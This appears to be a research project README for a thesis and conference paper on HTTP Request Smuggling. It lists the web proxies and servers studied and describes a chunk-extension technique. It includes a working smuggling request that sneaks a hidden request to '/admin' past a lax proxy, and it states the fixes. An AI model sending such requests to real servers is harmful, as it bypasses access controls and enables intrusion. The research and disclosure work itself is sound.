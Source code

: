 
### [Quick link to research](https://kth.diva-portal.org/smash/get/diva2:1596031/FULLTEXT01.pdf)

# Bachelor's thesis on HTTP Request Smuggling

During the spring of 2021, we (Mattias Grenfeldt and Asta Olofsson) wrote our bachelor's thesis in Computer Science at KTH Royal Institute of Technology in Sweden. We studied HTTP Request Smuggling. The thesis can be found [here](https://urn.kb.se/resolve?urn=urn:nbn:se:kth:diva-302371).

Once all issues found have been fixed by the affected vendors, we will publish here the code used for the test harness, the test requests and which systems are which in the anonymized report.

## IEEE EDOC 2021 paper

The bachelor's thesis was later rewritten into a conference paper with the help of Viktor Engström, and Robert Lagerström. The paper was submitted to [IEEE EDOC 2021](https://ieee-edoc.org/2021/) and got accepted.

## Systems investigated

Here is the de-anonymization of the systems we investigated:

- P1 - [Apache HTTP Server (httpd)](http://httpd.apache.org/)
- P2 - [Nginx](https://nginx.org/)
- P3 - ???
- P4 - [HAProxy](http://www.haproxy.org/)
- P5 - [Traefik](https://traefik.io/)
- P6 - [Caddy](https://caddyserver.com/)
- S1 - [Gunicorn](https://gunicorn.org/)
- S2 - [Actix](https://actix.rs/)
- S3 - [Node.js](https://nodejs.org/en/)
- S4 - [Puma](https://puma.io/)
- S5 - [hyper](https://hyper.rs/)
- S6 - [Golang (net/http)](https://pkg.go.dev/net/http)

## Errata

After the thesis was published, we realized that we had interpreted the situation with `Transfer-Encoding: chunked` and HTTP version 1.0 incorrectly. It was very unclear what a correct interpretation was. So we opened an issue on the specification. [Here](https://github.com/httpwg/http-core/issues/879) is the discussion that followed. This resulted in a change in the specification.

## Chunk extensions technique

After the thesis was published, we discovered another HRS technique. It is in the EDOC paper however. As far as we know, this is a new technique. The technique uses chunk extensions. You can read more about them here:

- https://datatracker.ietf.org/doc/html/rfc7230#section-4.1.1
- https://www.rfc-editor.org/errata/eid4667

Here is how an example request with chunk extensions could look like:

```
GET / HTTP/1.1
Host: localhost
Transfer-Encoding: chunked
 
5 ; a=b
hello
0

```

We found a proxy which parses chunk extensions incorrectly. It reads the chunk size and then reads any character until it encounters a `\n`. It doesn't verify whether there was a CR before the LF.

This could be combined with many of the servers tested since most servers allow any characters as part of the extension (particularly LF) but read the line until they reach CRLF. So we arrive at the following attack (all lines are terminated by CRLF):

```
GET / HTTP/1.1
Host: localhost:8080
Transfer-Encoding: chunked
 
2;\nxx
4c
0

GET /admin HTTP/1.1
Host: localhost:8080
Transfer-Encoding: chunked
 
0
```

The proxy will see the two chunks:

```
xx
```
and:
```
0

GET /admin HTTP/1.1
Host: localhost:8080
Transfer-Encoding: chunked
 
```

While the server will only see one chunk:

```
4c
```

and another request after it.

The fix for the server is to parse the chunk extension according to the RFC and not allow LF characters in it. The fix for the proxy is to verify that there is a CRLF there.
